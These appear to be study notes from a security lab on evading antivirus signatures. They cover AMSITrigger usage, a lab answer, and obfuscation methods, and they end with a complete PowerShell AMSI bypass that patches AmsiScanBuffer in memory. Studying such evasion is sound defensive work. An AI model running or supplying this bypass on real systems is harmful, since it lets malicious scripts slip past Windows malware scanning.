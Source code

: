 * AMSITrigger:

```shell
amsitrigger.exe --help

.\amsitrigger.exe -i bypass.ps1 -f 3
#-f for format shown in help
```

```markdown
1. At what offset was the end of bad bytes for the file? - 0xC544
```

## Static Code-Based Signatures

* Once a bad signature is identified, it could be broken using simple obfuscation or through specific investigation.

* Obfuscating methods:

  * Method proxy
  * Method scattering/aggregation
  * Method clone

* Obfuscating classes:

  * Class hierarchy flattening
  * Class splitting/coalescing
  * Dropping modifiers

* Splitting & merging objects - create a new object function that can break the signature while maintaining the previous functionality.

* Removing & obscuring identifiable info - replacing strings with random identifiers with changing values; obscuring variable names.

* Given snippet:

```ps
$MethodDefinition = "

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetModuleHandle(string lpModuleName);

    [DllImport(`"kernel32`")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
";

$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
$A = "AmsiScanBuffer"
$handle = [Win32.Kernel32]::GetModuleHandle('amsi.dll');
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress($handle, $A);
[UInt32]$Size = 0x5;
[UInt32]$ProtectFlag = 0x40;
[UInt32]$OldProtectFlag = 0;
[Win32.Kernel32]::VirtualProtect($BufferAddress, $Size, $ProtectFlag, [Ref]$OldProtectFlag);
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3); 

[system.runtime.interopservices.marshal]::copy($buf, 0, $BufferAddress, 6);
```
